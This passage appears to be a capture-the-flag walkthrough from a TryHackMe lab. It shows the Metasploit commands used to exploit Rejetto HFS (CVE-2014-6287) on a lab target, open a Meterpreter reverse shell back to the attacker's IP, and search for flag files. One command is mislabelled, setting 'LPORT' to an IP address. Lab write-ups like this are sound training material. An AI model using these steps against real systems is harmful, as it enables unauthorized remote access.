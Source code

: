 `2014-6287`

#

# Question 4

Use Metasploit to get an initial shell. We will search to see what exploit does rejetoo have on metasploit have.

On Terminal: `msfconsole` 
- To open Metasploit

On Terminal: `search rejetoo` 
- To search for exploit in Metasploit that contains "rejetoo".

<p align="center"> <img src="https://i.imgur.com/GjMLHR0.png" height="90%" width="90%" alt=""/>

We will use the only exploit found. 

On Terminal: `use 0`
- Use #0 from the matching modules.

<p align="center"> <img src="https://i.imgur.com/AZijwTL.png" height="90%" width="90%" alt=""/>

We will use "show options" to show what options is there for this exploit.

On Terminal: `show options`

<p align="center"> <img src="https://i.imgur.com/nTuNsuA.png" height="90%" width="90%" alt=""/>

We see that "RHOSTS" is required. We will change that to the Target IP Address. We will also change "RPORT" and "LHOST".

On Terminal: `set RHOSTS 10.10.27.109`

On Terminal: `set RPORT 8080`
- We are setting RPORT to 8080 because we are using 8080 instead of 80.

On Terminal: `set LPORT 10.6.106.187
- We changed the LPORT to our own machine IP, [Tryhackme's OpenVAS IP].

<p align="center"> <img src="https://i.imgur.com/DssxwRq.png" height="90%" width="90%" alt=""/>

Run the exploit and get into the meterpreter.

<p align="center"> <img src="https://i.imgur.com/RXMvMPo.png" height="90%" width="90%" alt=""/>

Use search to the user flag.

On Terminal: `search -f *.txt`
- `search`: This is the command or tool used for searching. The actual search tool may vary depending on your operating system or specific software installed.
- `-f`: This is an option or flag for the search command. The -f flag could potentially indicate that you want to search for files.
- `*.txt`: This is a file pattern or wildcard expression. In this case, it's searching for files with a ".txt" extension.
